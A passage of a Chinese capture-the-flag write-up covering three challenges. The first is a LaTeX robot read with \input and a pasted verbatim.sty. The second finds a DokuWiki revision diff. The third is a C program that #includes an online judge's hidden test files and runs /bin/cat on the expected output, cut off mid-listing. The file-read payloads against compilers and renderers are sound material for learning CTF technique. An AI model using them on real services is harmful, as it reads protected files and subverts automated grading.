 ## LaTeX 机器人

第一问：`\input{/flag1}`。

第二问，可以搜索到有一个 `\verbatiminput` 命令，但是需要 `verbatim` 这个宏包。虽然不能 `\usepackage`，但是可以把他的内容全部粘进来。

```latex
$$ \makeatletter
这里放 verbatim.sty 的内容，记得删掉行末的 %
\makeatother
\verbatiminput{/flag2} $$
```

## Flag 的痕迹

看到题目说“赶紧改好”，本来想枚举版本号（[http://202.38.93.111:15004/doku.php?id=start&rev=时间戳](http://202.38.93.111:15004/doku.php?id=start&rev=时间戳)），但是都枚举到了一天前都没有。

后来看到这个页面：[http://202.38.93.111:15004/doku.php?id=start&do=diff](http://202.38.93.111:15004/doku.php?id=start&do=diff)，于是就直接拿到了 flag，并且也解释了为什么没枚举出来。。

## 安全的在线测评

第一问可以直接把答案文件读出来然后输出，然后看到 flag 才发现，原来预期解大概是通过 `#include "../data/static.out"` 直接读出来。

第二问大概只能用编译器读文件了，经过一番搜索，发现可以在内嵌汇编里面使用 `.incbin` 直接把原始的 binary 嵌进文件，于是就可以做了。

```c
#include<stdio.h>
#include<string.h>
#include<unistd.h>

unsigned _st=
#include "../data/static.in"
,_d0=
#include "../data/dynamic0.in"
,_d1=
#include "../data/dynamic1.in"
,_d2=
#include "../data/dynamic2.in"
,_d3=
#include "../data/dynamic3.in"
,_d4=
#include "../data/dynamic4.in"
;

int main(){
    char b[1000];
    unsigned a=0;
    scanf("%s",b);
    int len=strlen(b);
    for(int i=0;i<len;i++)a=a*10+(b[i]-48);
    int cas;
    if(a==_st){
        const char*v[10]={"/bin/cat","./data/static.out",NULL},*e[1]={NULL};
        execve(v[0],v,e);
    }else{
        if(a==_d0)cas=0;
        if(a==_d1)cas=1;
        if(a==_d2)cas=2;
        if(a==_d3)cas=3;
        if(a==_d4)cas=4;
    }
    //return 0;
    char*output;
```